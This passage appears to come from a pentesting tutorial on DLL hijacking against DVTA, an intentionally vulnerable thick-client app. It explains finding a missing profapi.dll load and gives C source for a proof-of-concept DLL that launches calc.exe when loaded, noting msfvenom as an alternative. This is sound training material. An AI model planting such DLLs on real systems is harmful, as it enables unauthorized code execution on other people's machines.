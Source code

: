After the filters are applied it is recommended to restart the application for maximum coverage. Eventually, after watching the process activity you should come up to something like this:

![DVTA cannot find C:\\Users\\lsec\\Desktop\\DVTA\\DVTA\\bin\\Release\\profapi.dll](Not_Found.png)

This is a perfect candidate for DLL Hijacking attack, since the DVTA application is trying to load ```profapi.dll``` within my user's folder.

For generating a sample DLL, we can use either custom made one (recommended), or a [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) one. For the sake of the demo, I created the following custom DLL, to spawn "calc.exe" process.

```C
#include "pch.h"
#include <stdlib.h>
#include <windows.h>

void calc();

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
HANDLE t;
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
  t = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)calc, NULL, 0, NULL);
  CloseHandle(t);
  break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
	break;
}
return TRUE;
}

void calc()
{
 system("calc.exe");
}
```
